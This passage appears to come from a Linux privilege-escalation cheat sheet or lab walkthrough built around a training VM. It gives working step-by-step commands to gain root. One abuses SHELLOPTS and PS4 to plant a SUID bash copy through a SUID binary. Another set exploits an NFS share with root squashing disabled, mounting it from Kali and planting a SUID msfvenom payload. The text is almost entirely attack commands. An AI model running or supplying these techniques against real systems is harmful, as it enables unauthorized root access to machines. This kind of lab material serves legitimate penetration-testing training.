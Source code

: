 Run the `/tmp/rootbash` executable with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

* OR One liner

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### NFS

* Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
* Check the NFS share configuration:

```
cat /etc/exports
```

* Note that the /tmp share has root squashing disabled.
* On your Kali box, switch to your root user if you are not already running as root:

```
sudo su
```

* Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

* Alternative command

```
mount -t nfs -v 10.10.185.59:/ /tmp/nfs
```

* Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

* Still using Kali's root user, make the file executable and set the SUID permission:

```
chmod +xs /tmp/nfs/shell.elf
```

* Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```
/tmp/shell.elf
```
